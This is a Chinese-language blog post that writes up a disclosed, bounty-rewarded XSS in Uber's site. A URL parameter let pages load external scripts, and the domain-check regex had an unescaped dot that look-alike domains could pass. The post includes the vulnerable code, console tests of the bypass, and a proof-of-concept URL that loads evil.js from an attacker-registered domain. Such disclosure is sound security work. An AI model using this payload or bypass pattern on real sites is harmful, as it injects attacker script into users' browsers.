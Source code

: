 ```yaml
---
layout: post
title: Bypass uber xss regex filter
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - zhchbin</p>

## 前言

两个月前的一天，在Hackerone上看了不少报告之后的我跃跃欲试，不自量力地给自己定下一个目标：一定要找一个能够获得Bounty的漏洞！然后，前后差不多花了三天的时候，找到了Uber网站的一个XSS漏洞。今早也顺利地收获了人生的第一笔奖金，$7000。接下来就分享一下这个漏洞吧。

## 漏洞代码

在看Uber的网站前端JS代码的时候，发现有如下的一段代码：

{% highlight javascript %}
(function() {
    var k = document.createElement('script');  // 创建script标签
    k.type = 'text/javascript';
    k.async = true;
    k.setAttribute("data-id", u.pubid);
    k.className = "kxct";
    k.setAttribute("data-version", "1.9");

    // 从location.href参数中读取kxsrc
    var m, src = (m = location.href.match(/\bkxsrc=([^&]+)/)) && decodeURIComponent(m[1]);

    // 检查kxsrc参数的值是否满足正则，如果满足则加载，否则加载默认的JS文件 
    k.src = /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test(src) ? src : src === "disable" ? "" : (location.protocol === "https:" ? "https:" : "http:") + "//cdn.krxd.net/controltag?confid=" + u.pubid;
    var s = document.getElementsByTagName('script')[0];
    s.parentNode.insertBefore(k, s);
})();
{% endhighlight %}

目前代码还能在：https://tags.tiqcdn.com/utag/uber/main/prod/utag.273.js 看到，不过修复之后相应的网站已经不会加载这个代码文件了。 通过阅读上面这段代码，我们能够知道参数是`kxsrc`是可以被用户控制的，而且如果满足一定条件，该参数所指定的js文件就会被加载。

## 漏洞分析

咋一看，这段代码似乎没有什么问题：JS文件只能是`krxd.net`域下的文件。然而，在正则表达式里：`.`代表的意思是匹配任意字符。我们来做一个简单的实验，F12打开浏览器的调试窗口：

{% highlight javascript %}
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.bkrxd.net/controltag/evil.js')
< true
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.ckrxd.net/controltag/evil.js')
< true
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.dkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.ekrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.fkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://aafkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://abfkrxd.net/controltag/evil.js')
< true
{% endhighlight %}

<img src="http://ww3.sinaimg.cn/large/7184df6bgw1f7otlqoccoj211i03xjsu.jpg">

## PoC

买个域名！部署一下HTTPS！写一个简单的JS文件！添加到参数里！Bingo，就是这么神奇！

{% highlight javascript %}
https://www.uber.com/?exp=hp-c&kxsrc=https%3A%2F%2Fwww.akrxd.net%2Fcontroltag%2Fevil.js
{% endhighlight %}

<img src="http://ww4.sinaimg.cn/large/7184df6bgw1f7otuv4e5hg20sb0k6x6p.gif">